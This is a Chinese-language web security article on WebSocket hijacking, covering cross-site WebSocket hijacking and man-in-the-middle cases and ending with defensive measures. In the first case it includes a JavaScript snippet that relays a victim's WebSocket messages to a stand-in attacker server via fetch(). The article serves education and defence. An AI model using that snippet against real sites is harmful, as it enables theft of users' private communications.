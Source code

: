 ### WebSocket劫持案例分析：Web安全视角

WebSocket劫持是一种针对WebSocket协议的安全漏洞，攻击者通过利用WebSocket连接的弱点，窃取或篡改客户端与服务器之间的通信数据。WebSocket协议因其双向通信和低延迟特性，在现代Web应用中被广泛使用，但也因此成为攻击者的目标。本文将通过分析真实世界中的WebSocket劫持漏洞案例和攻击实例，探讨其危害、攻击手法及防御措施。

#### 1. WebSocket协议简介

WebSocket是一种在单个TCP连接上进行全双工通信的协议，允许客户端和服务器之间进行实时数据交换。与传统的HTTP请求-响应模式不同，WebSocket连接一旦建立，双方可以随时发送数据，无需频繁地建立和关闭连接。这种特性使得WebSocket在实时应用（如在线聊天、游戏、股票交易等）中非常受欢迎。

然而，WebSocket的安全性依赖于其握手过程和通信加密。如果握手过程存在漏洞或通信未加密，攻击者可能利用这些弱点进行劫持攻击。

#### 2. WebSocket劫持的原理

WebSocket劫持的核心在于攻击者能够窃取或篡改WebSocket连接中的数据。常见的WebSocket劫持攻击包括：

- **会话劫持**：攻击者通过窃取WebSocket连接的会话标识符（如Cookie），冒充合法用户与服务器通信。
- **中间人攻击（MITM）**：攻击者在客户端和服务器之间插入自己，窃取或篡改WebSocket通信数据。
- **跨站WebSocket劫持（CSWSH）**：攻击者利用跨站请求伪造（CSRF）漏洞，诱导用户浏览器与恶意服务器建立WebSocket连接。

#### 3. 真实案例分析

##### 案例1：跨站WebSocket劫持（CSWSH）

**背景**：某在线聊天应用使用WebSocket协议实现实时消息传递。该应用未对WebSocket握手请求进行严格的来源验证，导致存在跨站WebSocket劫持漏洞。

**攻击过程**：
1. **构造恶意页面**：攻击者创建一个恶意网页，其中包含一段JavaScript代码，用于发起WebSocket连接。
   ```javascript
   var ws = new WebSocket('ws://vulnerable-chat-app.com/chat');
   ws.onmessage = function(event) {
       // 将接收到的消息发送到攻击者控制的服务器
       fetch('https://attacker.com/steal', {
           method: 'POST',
           body: event.data
       });
   };
   ```
2. **诱导用户访问**：攻击者通过钓鱼邮件或社交工程手段，诱导用户访问该恶意页面。
3. **劫持会话**：当用户访问恶意页面时，浏览器会自动发起WebSocket连接，并使用用户的会话Cookie进行身份验证。由于WebSocket握手请求未验证来源，服务器会接受该连接。
4. **窃取数据**：攻击者通过WebSocket连接接收用户的聊天消息，并将其发送到自己的服务器。

**危害**：攻击者可以窃取用户的聊天记录，甚至冒充用户发送消息，导致隐私泄露和身份冒充。

##### 案例2：中间人攻击（MITM）

**背景**：某股票交易平台使用WebSocket协议实时推送股票价格信息。该平台未对WebSocket通信进行加密，导致存在中间人攻击风险。

**攻击过程**：
1. **网络监听**：攻击者通过ARP欺骗或其他手段，将用户流量重定向到自己的设备。
2. **窃取数据**：由于WebSocket通信未加密，攻击者可以直接读取客户端与服务器之间的股票价格信息。
3. **篡改数据**：攻击者还可以篡改股票价格信息，诱导用户做出错误的交易决策。

**危害**：攻击者可以窃取敏感的交易信息，甚至通过篡改数据操纵市场，导致用户经济损失。

#### 4. 防御措施

针对WebSocket劫持攻击，可以采取以下防御措施：

- **使用WSS协议**：通过使用WebSocket Secure（WSS）协议，对WebSocket通信进行加密，防止中间人攻击。
- **验证来源**：在WebSocket握手过程中，验证请求的来源（如检查Origin头），防止跨站WebSocket劫持。
- **使用CSRF令牌**：在WebSocket握手请求中包含CSRF令牌，防止跨站请求伪造攻击。
- **限制会话有效期**：设置会话Cookie的有效期，并在用户注销或会话过期时及时销毁会话，减少会话劫持的风险。
- **监控和日志记录**：实时监控WebSocket连接，记录异常行为，及时发现和应对攻击。

#### 5. 结论

WebSocket劫持是一种严重的安全威胁，攻击者可以通过窃取或篡改WebSocket通信数据，导致隐私泄露、身份冒充和经济损失。通过分析真实案例，我们可以看到，WebSocket劫持攻击的根源在于握手过程的弱点和通信未加密。因此，开发者应重视WebSocket的安全性，采取有效的防御措施，确保WebSocket连接的安全性和可靠性。

在Web安全领域，WebSocket劫持是一个值得关注的话题。随着WebSocket协议的广泛应用，其安全性问题将越来越受到重视。通过加强安全意识、采用最佳实践和持续监控，我们可以有效降低WebSocket劫持的风险，保护用户的数据和隐私。

---

*文档生成时间: 2025-03-11 15:17:43*






















